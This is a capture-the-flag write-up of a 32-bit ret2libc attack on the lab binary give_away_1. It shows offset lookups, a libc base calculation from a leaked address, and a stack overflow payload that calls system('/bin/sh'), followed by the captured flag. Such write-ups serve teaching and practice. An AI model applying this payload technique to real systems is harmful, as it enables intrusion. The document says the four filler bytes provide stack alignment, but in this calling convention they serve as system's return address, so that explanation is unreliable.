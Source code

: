 # Give away 1 writeup

## Content

This writeup is about PWN challenge

	* libc-2.27.so: shared library (given)
	* give_away_1: challenge binary (given)
	* exploit.py: Full exploit

## Binary analysis

1. Quick check of the binary on ida gives

	* main

![main](./screenshots/ida_main.png)

	* vuln 

![vuln](./screenshots/ida_vuln.png)


2. Checksec shows that PIE and NX are enabled so we can go for ret2libc attack. 

![checksec](./screenshots/checksec.png)

## Exploit

This kinda of classic exploits so 

1. Step I: 

* extraire system and /bin/sh offset from libc binary

```shell
readelf -s  libc-2.27.so | grep system
strings -a -t x libc-2.27.so | grep /bin/sh
```

* compute libc base address 

```python
out = p.recvline().strip().split(' ')
sysaddr = int(out[2],16)
libc_base = sysaddr - SYSTEM
```

2. Step II:

The arguments for system should be passed in the stack because `__cdecl` is  the calling convention of libc functions.

![libc_caling_convention](./screenshots/ida_libc_system.png)

```python
payload = "A" * 36 + p32(sysaddr) + "B"*4  + p32( BIN_SH_final)   
p.sendline(payload)
```

Basically we add a dummy 4 bytes("B" * 4) to the payload to avoid stack aligment issues as the stack should be 16-bytes aligned.

## Notes:
* The Full exploit is in exploit.py.
* Flag: shkCTF{I_h0PE_U_Fl4g3d_tHat_1n_L3ss_Th4n_4_m1nuT3s}